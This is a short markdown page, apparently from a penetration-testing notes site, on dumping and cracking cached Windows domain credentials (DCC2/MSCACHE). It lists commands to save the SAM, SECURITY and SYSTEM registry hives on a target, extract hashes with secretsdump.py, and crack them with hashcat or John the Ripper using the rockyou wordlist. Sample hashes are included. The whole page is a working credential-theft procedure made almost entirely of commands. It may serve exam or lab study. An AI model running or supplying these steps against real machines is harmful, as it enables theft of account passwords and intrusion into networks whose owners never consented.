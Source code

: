 ```yaml
---
title: DCC2 (MSCACHE)
parent: Operating Systems
layout: default
nav_order: 2
---
```


1. On target, run:\
   `reg.exe save hklm\sam sam.save`\
   `reg.exe save hklm\security security.save`\
   `reg.exe save hklm\system system.save`
2. `secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
3. Save the DCC2 password in a text file manually. The output will be like this: `EXAM.COM/ted:$DCC2$10240#ted#2e77894e912565924cb886b99b320f5d`, but cannot use directly with hashcat. Can use directly with John though.
4. Save the output to a file hashes.txt and do this:\
   `echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt`\
   Now use this:\
   `hashcat -m2100 '$DCC2$10240#Administrator#f69ffa1c8261959618e5d4f1ad2b22cc' /usr/share/seclists/rockyou.txt --force --potfile-disable`\
   (can manually put in this format $DCC2$10240#username#hash if don't want to run above line) or if is a file just use\
   `hashcat -m2100 mcash.txt /usr/share/seclists/rockyou.txt --force --potfile-disable`
5. John:\
   `john --wordlist=/usr/share/seclists/rockyou.txt mscash2.txt --format=mscash2`